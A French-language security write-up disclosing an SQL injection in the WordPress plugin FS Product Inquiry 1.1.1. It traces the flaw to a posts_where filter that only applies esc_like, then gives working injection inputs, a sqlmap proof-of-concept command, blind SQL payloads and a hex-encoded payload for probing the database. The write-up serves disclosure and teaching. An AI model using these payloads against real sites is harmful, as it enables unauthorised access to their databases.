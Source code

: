 ```yaml
---
title: "Faille d'injection SQL dans le plugin Wordpress FS Product Inquiry"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [FS Product Inquiry](https://wordpress.org/plugins/fs-product-inquiry/) se présente de cette façon :

> FS Product Inquiry is a WordPress product inquiry plugin. This plugin is useful for product inquiry and also store all the data in the database with email so we can use these emails as subscribe or for other product marketing purposes.

La version testée est la 1.1.1 et date d'il y a 3 ans au moment de ces lignes.

## La vulnérabilité

Le script `fs-product-inquiry.php` du plugin déclenche différentes actions pour activer le plugin.

Tout d'abord, il y a la création d'un nouveau post qui contient le texte `[fspi-show-products-list]` (on verra plus tard pourquoi) : 

```php
if(!function_exists('fspi_plugin_activated')){                                                                         
    function fspi_plugin_activated(){                                                                                  
        $field = array(                                                                                                
            array(                                                                                                     
                'id'                    => 1,                                                                          
                '_fs_field_title'       => 'Name',                                                                     
                '_fs_field_type'        => 'text',                                                                     
                '_fs_field_placeholder' => 'Enter Your Name',                                                          
                '_fs_field_position'    => 1,                                                                          
                '_fs_field_is_required' => true                                                                        
            ),                                                                                                         
            array(                                                                                                     
                'id'                    => 2,                                                                          
                '_fs_field_title'       => 'Email',                                                                    
                '_fs_field_type'        => 'email',                                                                    
                '_fs_field_placeholder' => 'Enter Your Email',                                                         
                '_fs_field_position'    => 2,                                                                          
                '_fs_field_is_required' => true                                                                        
            )                                                                                                          
        );                                                                                                             
        $inquiry_form_fields = $field;                                                                                 
        update_option('_fspi_inquiry_form_fields',$inquiry_form_fields);                                               
        update_option( '_fspi_server_url', 'https://www.fudugo.com/' );                                                
                                                                                                                       
        if (!get_page_by_title('FSPI Product Inquiry')) {                                                              
            $PageGuid = site_url() . "/fspi-product-inquiry";                                                          
            $fspi_inquiry_page  = array(                                                                               
                    'post_title'     => esc_html__( 'FSPI Product Inquiry', 'fspi' ),                                  
                    'post_type'      => 'page',                                                                        
                    'post_name'      => 'fspi-product-inquiry',                                                        
                    'post_content'   => '[fspi-show-products-list]',                                                   
                    'post_status'    => 'publish',
                    'comment_status' => 'closed',                                                                      
                    'ping_status'    => 'closed',                                                                      
                    'post_author'    => 1,                                                                             
                    'menu_order'     => 0,                                                                             
                    'guid'           => $PageGuid                                                                      
                );                                                                                                     
            $PageID = wp_insert_post( $fspi_inquiry_page, FALSE );                                                     
        }                                                                                                              
    }                                                                                                                  
}                                                                                                                      
```

À la fin du même script une instance de la classe `FSProductInquiry` est créée :

```php
/**                                                                                                                    
 * Returns the main instance of FSPI.                                                                                  
 * @return FSProductInquiry                                                                                            
 */                                                                                                                    
function FSPI() {                                                                                                      
    return FSProductInquiry::instance();                                                                               
}                                                                                                                      
                                                                                                                       
// Global for backwards compatibility.                                                                                 
$GLOBALS['FSProductInquiry'] = FSPI();
```

Cette classe définie dans `includes/class-fs-products.php` dispose d'un constructeur qui déclare différentes actions et filtres mais aussi un shortcode :

```php
class FSPIProduct extends FSPIProductSetting{                                                                          
    /**                                                                                                                
     * FSPIProduct Constructor.                                                                                        
     */                                                                                                                
    function __construct() {                                                                                           
        add_action( 'init', array($this,'fspi_products'));                                                             
        if(!shortcode_exists( 'fspi-show-products-list' ) ) {                                                          
            add_shortcode( 'fspi-show-products-list', array($this,'fspi_show_products_list') );                        
        }                                                                                                              
        add_action( 'add_meta_boxes', array($this,'fspi_product_meta_fields'));                                        
        add_action( 'save_post', array($this,'fspi_save_product_meta_data'));                                          
        add_filter( 'template_include', array($this,'fspi_show_product_detail'), 1 );                                  
        add_filter('taxonomy_template', array($this,'fspi_taxonomy_template'));                                        
        add_action('init',array($this,'fspi_register_session'));                                                       
                                                                                                                       
        add_action( 'comment_form_logged_in_after', array($this,'fspi_comment_rating_rating_field') );                 
        add_action( 'comment_form_after_fields', array($this,'fspi_comment_rating_rating_field') );                    
        add_action( 'wp_enqueue_scripts', array($this,'fspi_comment_rating_styles') );                                 
        add_action( 'comment_post', array($this,'fspi_comment_rating_save_comment_rating') );                          
        add_filter( 'comment_text', array($this,'fspi_comment_rating_display_rating'));                                
        add_action( 'wp_ajax_nopriv_fspi_get_inquiry_attribute', array($this,'fspi_get_inquiry_attribute' ));          
        add_action( 'wp_ajax_fspi_get_inquiry_attribute', array($this,'fspi_get_inquiry_attribute') );                 
        add_action( 'wp_ajax_nopriv_fspi_ck_loopul', array($this,'fspi_ck_loopul' ));                                  
        add_action( 'wp_ajax_fspi_ck_loopul', array($this,'fspi_ck_loopul') );                                         
    }
```

Un shortcode est, comme expliqué [dans la documentation Wordpress](https://developer.wordpress.org/reference/functions/add_shortcode/), un mot clé dont la présence dans un post va déclencher l'exécution d'une fonction callback.

Par conséquent, le post créé initialement par le plugin va utiliser la fonction de callback `fspi_show_products_list`.

Cette fonction en appelle une autre, à différents emplacements :

```php
--- snip ---
if (empty($_POST['_fs_product_id'])) {                                                                       
    $this->fs_get_all_products();                                                                          
} else {
--- snip ---
```

On se rapproche de notre vulnérabilité... 

```php
/*                                                                                                                 
* Define function to show product list                                                                             
*/                                                                                                                 
function fs_get_all_products() {                                                                                    
    wp_enqueue_script('jquery');

    add_filter( 'posts_where', array($this,'fspi_post_title_filter'), 10, 2 );
    $paged = (get_query_var('paged')) ? get_query_var('paged') : 1;
    $product_name = !empty($_POST['product_name'])?trim(sanitize_text_field($_POST['product_name'])):'';
    $args = array( 'post_type' => 'fspi-products', 'posts_per_page' => 9, 'paged' => $paged, 'fs_search_post_title' => $product_name);
    $loop = new WP_Query($args);
    /*
    * Remove filter to update wp_query for product search
    */
    remove_filter( 'posts_where', array($this,'fspi_post_title_filter'), 10 );
    include FSPI_BASE_DIR.'/templates/public/fspi-show-product-list.php';
}
```

Cette fonction hooke [posts_where](https://developer.wordpress.org/reference/hooks/posts_where/) afin d'agir sur la clause `WHERE` de la requête SQL qui retourne les posts :

> This filter applies to the posts where clause and allows you to restrict which posts will show up in various areas of the site.

Cette dernière fonction est la suivante :

```php
/*
* Update wp_query for product search
*/
function fspi_post_title_filter($where, $wp_query) {
    if ( $search_term = $wp_query->get( 'fs_search_post_title' ) ) {
        global $wpdb;
        $where .= ' AND ' . $wpdb->posts . '.post_title LIKE \'%' . $wpdb->esc_like( $search_term ) . '%\'';
    }
    return $where;
}
```

On voit ici que la seule fonction appelée sur la variable `$search_term` est [esc_like](https://developer.wordpress.org/reference/classes/wpdb/esc_like/) dont la définition est la suivante :

> First half of escaping for LIKE special characters % and _ before preparing for SQL.

Bref cette fonction ne protège aucunement des injections SQL.

Quand on se rend sur la page ajoutée par le plugin, on voit un champ de texte nommé `product_name` :

```html
<form class="form-inline" method="POST" action="" id="productSearchForm">
    <input type="text" name="product_name" class="form-control" id="inputSearch" placeholder="Search by Product Name">
    <button type="submit" class="btn btn-default mb-2 set-color" style="margin-right: 5px;color: #fff;">Search</button>
    <button type="button" onclick="javascript:resetSearchProduct()" class="btn btn-default mb-2" style="color: #fff;">Reset</button>
</form>
```

Si on active le debug du Wordpress dans `wp-config.php` :

```php
define( 'WP_DEBUG', true);
```

Et qu'on saisit une apostrophe dans le champ de texte, alors on peut voir l'erreur suivante :

```html
WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' ORDER BY wp_posts.post_date DESC LIMIT 0, 9' at line 3]

SELECT SQL_CALC_FOUND_ROWS wp_posts.ID
FROM wp_posts WHERE 1=1 AND ((wp_posts.post_type = 'fspi-products' AND (wp_posts.post_status = 'publish')))
AND wp_posts.post_title LIKE '%\\'%'
ORDER BY wp_posts.post_date DESC LIMIT 0, 9
```
L'avant-dernière ligne de la requête (`AND wp_posts.post_title ...`) correspond à ce qui est injecté par le plugin.

On voit que notre caractère apostrophe n'a pas été échappé ce qui rend la requête invalide.

Si on saisit `' OR 1 #` alors la page nous retourne l'ensemble des pages (posts et autres) du Wordpress.

`sqlmap` retrouve sans difficultés la vulnérabilité même si le mode debug de Wordpress est désactivé.

PoC :

```bash
python sqlmap.py -u "http://localhost:8000/?page_id=5" --data "product_name=a" --risk 3 --level 5 -p product_name
```

Dans mon cas :

```
sqlmap identified the following injection point(s) with a total of 576 HTTP(s) requests:
---
Parameter: product_name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: product_name=-5801' OR 2811=2811-- PdlV

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: product_name=a' AND (SELECT 4949 FROM (SELECT(SLEEP(5)))oFWk)-- klxu
---
```

Lors de mes tests, j'ai dû faire face à un comportement inattendu de `sqlmap` qui identifiait correctement le SGBD à la première exécution, mais indiquait ensuite qu'il ne s'agissait plus du même...

Je pense que c'est lié au deux antislashs qui sont ajoutés devant chaque apostrophe, ce qui rend l'exploitation plus compliquée.

En conclusion l'écriture d'un exploit plus spécifique peut être nécessaire pour exploiter la vulnérabilité. On évitera d'utiliser plus d'un apostrophe en encodant les chaines en hexadécimal.

Par exemple pour vérifier que la base courante s'appelle `wordpress` :

```
' OR database()=0x776f72647072657373 #
```
